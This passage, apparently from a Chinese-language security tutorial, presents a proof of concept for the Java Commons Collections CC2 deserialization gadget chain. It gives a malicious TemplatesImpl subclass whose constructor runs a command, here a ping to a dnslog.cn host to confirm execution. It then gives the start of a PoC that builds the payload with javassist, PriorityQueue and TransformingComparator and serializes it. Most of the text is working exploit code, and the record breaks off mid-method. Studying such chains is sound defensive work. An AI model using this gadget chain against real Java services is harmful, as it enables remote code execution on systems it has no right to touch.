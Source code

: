### 第二个poc demo





自己创建一个恶意类：

```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class EvilTemplatesImpl extends AbstractTranslet {  //必须实现AbstractTranslet
  //当一个类被实例化的时候会执行其构造方法，所以把恶意代码写在了构造方法里面
    public EvilTemplatesImpl() throws Exception{
        super();
        Runtime.getRuntime().exec("ping xpsssss.glultz.dnslog.cn -c 1");
    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }
}

```



poc：

```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class CC2 {
    public static void main(String[] args) throws Exception {
        byte[] evilData = serialize(cc2());
        unserialize(evilData);

    }

    static Object cc2() throws Exception{
        //构造恶意类EvilTemplatesImpl并转换(使用javassist)为字节码
        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.getCtClass("EvilTemplatesImpl"); //这里恶意类放在同目录下所以没有写包名
```